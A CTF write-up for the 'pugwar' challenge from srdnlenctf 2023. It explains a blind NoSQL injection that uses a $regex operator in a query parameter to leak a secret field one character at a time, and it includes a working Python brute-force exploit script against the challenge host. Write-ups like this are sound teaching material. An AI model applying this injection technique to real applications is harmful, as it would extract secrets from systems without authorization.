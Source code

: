 # srdnlenctf 2023

## pugwar (X solves)

What do you call a cold pug? A pugsicle!


### Solution

In this challenge you need to perform a NoSQL injection attack. The flag is contained inside the secret field of the pug named Mario. In order to leak the flag, it is possible to exploit a vulnerability in the /fighter-customization endpoint. The DB executes queries even if the Fighter pugName entered is not yours, and in case the query is valid, we can distinguish a valid query response (server responds with "You can't customize other players fighter!") from an invalid one ("There are no fighters with that pugName!"). 

### Exploit

```python
#!/bin/env python3

from requests import *
from string import ascii_letters, digits

host = "http://pugwar.srdnlen.challs.it"
path_solve = "/fighter-customization?pugName=Mario&secret[$regex]=^"
path_register = "/register-user"
flag = ""

alphabet = ascii_letters + digits + '{}_'

def register_user(username, password):
    r = session.post(f'{host}{path_register}', json={'username': username, 'password': password})


session = Session()
register_user('srdnlen', 'srdnlen')

while not flag.endswith("}"):
    for c in alphabet:
        response = session.get(f"{host}{path_solve}{flag}{c}")
        if("You can&#x27;t customize other players fighter!" in response.text):
            flag = flag + c
            

print(flag)

```
